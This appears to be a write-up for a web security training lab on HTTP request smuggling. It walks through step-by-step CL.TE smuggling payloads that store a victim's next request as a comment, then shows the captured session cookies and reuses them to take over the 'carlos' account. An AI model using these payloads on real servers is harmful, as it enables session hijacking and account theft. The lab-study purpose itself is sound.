 # Exploiting HTTP request smuggling to capture other users' requests

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

---

step 1

```
Transfer-Encoding: chunked

userid=test
```

![screenshot](images/images_lab9/lab9_post_request_500_error.jpg)

step 2

```
Content-Length: 21
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](images/images_lab9/lab9_post_request_200_ok.jpg)

step 3

```
Content-Length: 20
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](images/images_lab9/lab9_post_request_500_cl.jpg)

step 4

```
Content-Length: 135
Transfer-Encoding: chunked

b
userid=test
0


POST /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

userid=test

```

![screenshot](images/images_lab9/lab9_method_not_allowed.jpg)

step 5

```
Content-Length: 134
Transfer-Encoding: chunked

b
userid=test
0


GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](images/images_lab9/lab9_post_id_5_payload.jpg)

step 6

```
Content-Length: 118
Transfer-Encoding: chunked

0


GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test

```

![screenshot](images/images_lab9/lab9_get-post_request.jpg)

step 7

post comment and intercept

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&comment=this+is+test&name=testname&email=test%40mail.com&website=
```

![screenshot](images/images_lab9/lab9_post_comment.jpg)

step 8

![screenshot](images/images_lab9/lab9_add_copy_csrf_section_with_comment.jpg)

step 9

post comment with different comment

![screenshot](images/images_lab9/lab9_remove_unnesaary_header.jpg)

---

step 10

final payload testing

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&comment=this+is+test&name=testname&email=test%40mail.com&website=
```

change comment section like this

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&name=hackk&email=test1%40mail.com&website=&comment=
```

```
Content-Length: 254
Transfer-Encoding: chunked

0

post /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Cookie: session=oRaLAPeBQwjMu7hH7CY3ApQxu34w7O4t

csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&name=hackk&email=test1%40mail.com&website=&comment=
```

![screenshot](images/images_lab9/lab9_post_comment_payload.jpg)

---

step 11

increase content-Length with `900` to get session id

```
cookie: victim-fingerprint=4qXhX3JGIaZ1nPA7DfDUN3o3x3j0QUFk;
secret=biu3gp5YN1RAKIZOStdiVv3xysxFQ0fB;
session=s47pz7I1zqG9g5mnsLTjYxHstu2CUtpq
```

![screenshot](images/images_lab9/lab9_add_content_length_900.jpg)

---

step 12

login carlos account with any random password
and intercept and replace session id with session id from **\_\_\_\_**

step 11

![screenshot](images/images_lab9/lab9_intercept_carslos_account.jpg)

![screenshot](images/images_lab9/lab9_lab_solved.jpg)
